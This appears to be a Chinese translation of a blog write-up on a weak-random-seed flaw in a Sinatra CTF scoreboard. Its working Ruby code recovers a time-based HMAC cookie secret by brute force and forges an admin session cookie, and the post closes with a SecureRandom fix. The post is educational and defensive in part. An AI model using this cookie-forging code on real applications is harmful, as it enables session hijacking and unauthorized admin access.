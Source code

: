 # 弱随机化种子漏洞科普

0x00 背景
-------

* * *

上周我参加了一个Bishop Fox和BYU大学举办的CTF比赛，在比赛过程中我决定尝试一下入侵一下计分系统，并且我把入侵的过程记录了下来。

尽管客户端的token欺骗已经不是什么新鲜事了，但是这次的入侵过程可以作为weak randomness漏洞的一个很好的练习。（这次攻击目标所使用的框架并不是像Rails一样常用的框架）

最后说一句：这个漏洞是框架自己带有的而不是Bishop Fox 或者是 BYU的问题。

0x01 cookie运行原理
---------------

* * *

在开始之前，我推荐你阅读一下[这篇博文](http://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/)，他会告送你一个基于ruby的webapps如何处理cookie。

简而言之，ruby会生成一个hash数值作为一个cookie存储在用户客户端像这样

```
{ 'session_id' => '78894f58c088a9c6555370a0d97e373e715b91bc' }  

```

之后ruby分为三步把他存储到客户端

```
(1)使用Marshal.dump对数据结构进行序列化  
(2)使用base64编码第一步得到的字符串  
(3)计算message的HMAC（HMAC被用于message的完整性检查，这是ruby的一种机制以防用户篡改自己的cookie）  

```

当以上三步做完之后，ruby会在头文件中加入如下一段

```
Set-Cookie:"rack.session={base64-encoded message body}--{hmac};"  

```

实际的cookie是这样

```
Set-Cookie:"rack.session=BAh7BkkiD3Nlc3Npb25faWQGOgZFVEkiRTViNDY1NjdkYTAzYjYwYTdlZGIy%0ANDg4NWEyMzVlY2E2YzRkYmM5M2IwYzgxZWJlMDc1NmQ0NGRmODE0ZjEzYjAG%0AOwBG%0A--2148e8dc04eeba3bf0f4e0d70c04465b61c4758d;"  

```

上述处理cookie的过程有一个漏洞，message中的信息可以被客户端还原，只需要对它进行base64解码和反序列化即可得到原始的ruby object

ruby对于cookie信任的前提是，通过HMAC验证message中的内容必须是有你代码中设定的密钥标记过的，只有这样ruby才会把cookie当做一个有效地凭证。

下图就是上述过程简要流程

![enter image description here](http://drops.javaweb.org/uploads/images/055922c2350a151ab3b124ca24eceebeb90f9860.jpg)

如果你篡改了你的cookie，会导致HMAC验证不通过，从而使你修改过的cookie值失效。

0x02 简介
-------

* * *

CTF的评分系统是一个Sinatra-based的webapp，它使用了一些基本的Rails机制，提供了一个计分板的效果。看一下代码，还是比较简洁的。

这个webapp有一个有趣的现象就是，默认情况下代码库中没有配置文件，配置文件是在程序运行过程中生成的，下面是创建配置文件的代码。

```
begin
  require './config.rb'
rescue Exception => e
  # create default config.rb
  open('./config.rb', "w+") {|f|
    f.puts <<-"EOS"
COOKIE_SECRET = "#{Digest::SHA1.hexdigest(Time.now.to_s)}"
ADMIN_PASS_SHA1 = "08a567fa1a826eeb981c6762a40576f14d724849" #ctfadmin
STYLE_SHEET = "/style.css"
HTML_TITLE = "scoreserver.rb CTF"
EOS
    f.flush
  }
  require './config.rb'
end

```

值得注意的是，COOKIE_SECERT就是前文中提到的HMAC所使用的key。他是`Time.now.to_s`的SHA-1散列。这段代码中所使用的`Time.now.to_s`就是我们所说的不健壮的随机化种子。

0x03 原理
-------

* * *

现在我们很容易知道，如果想要伪造cookie，就必须得到一个合法的HMAC字符串，只有得到它之后，我们才可以通过修改session-id来控制session。

这个漏洞的根源是因为它使用了，弱随机化种子，在上文的代码中，SHA1-hashing 加密了一个秒级别的精度的字符串，这样我们就可以使用暴力的方法尝试一天之内秒数只需要`60 x 60 x 24`次尝试。

而且我们并不需要把每次的尝试结果提交到web服务器，只需要在本地计算出正确的key，然后再通过它构造出正确的HMAC提交即可。

0x04 POC
--------

* * *

为了确定一下我们是否可以破解HMAC，我们可以试一下。

首先，我们从webapp得到cookie和HMAC。如果你想自己测试，copy以下代码运行即可。

```
require 'faraday'

connection = Faraday.new(:url => 'http://localhost:4567')
response = connection.get '/'
cookie, hmac = response.headers[:'set-cookie'].split.first.chop.split('=').last.split('--')

```

现在我们只需要不断的获取Time.now和创建HMACs直到匹配为止。我们通过一个循环依次减小时间，直到找到正确的时间使得SHA1散列匹配而得到session key。

```
require 'digest/sha1'
require 'openssl'

def create_hmac message, key
  OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, key, CGI.unescape(message))
end

seed = Time.now

while (hmac != create_hmac(cookie, Digest::SHA1.hexdigest(seed.to_s))) do
    seed -= 1
end

key = Digest::SHA1.hexdigest(seed.to_s)

```

这样我们就可以成功破解key了，这个key可以帮助我们创建合法的HMAC。

0x05 利用
-------

* * *

得到了key，我们就可以找一下源代码中有什么能让我们提升权限的地方。

首先，代码会对cookie进行反序列化。

```
params = Marshal.load(Base64.decode64(CGI.unescape(cookie)))

```

这样修改之后，我们就可以赋予自己管理员权限。

```
params.merge!({ 'admin' => true })

```

通过上述语句重建cookie

```
bad_cookie = CGI.escape(Base64.encode64(Marshal.dump(params)))
bad_hmac = create_hmac(bad_cookie, key)
header = "rack.session=#{bad_cookie}--#{bad_hmac};"

```

只要把上面得到的cookie内容，加到header里面就可以获取管理员权限了。

到达这一步只要查看源代码就可以很轻易地获取到每一题的答案了。

0x06 防御方法
---------

* * *

我在github上提交了一个修改版本，其中使用这句代替了cookie secret key的生成

```
Digest::SHA1.hexdigest(Time.now.to_s)  

```

使用SecureRandom库生成随机数

```
SecureRandom.hex(20)  

```

这会生成一个40个字符的随机字符串

0x07 结论
-------

* * *

这篇文章虽然在技术上没有什么实质性突破，但是作为一个弱随机漏洞的例子还是很不错的，希望在思路上可以启发到各位。

from:[http://blog.tjll.net/weak-random-seed-rack-exploit/](http://blog.tjll.net/weak-random-seed-rack-exploit/)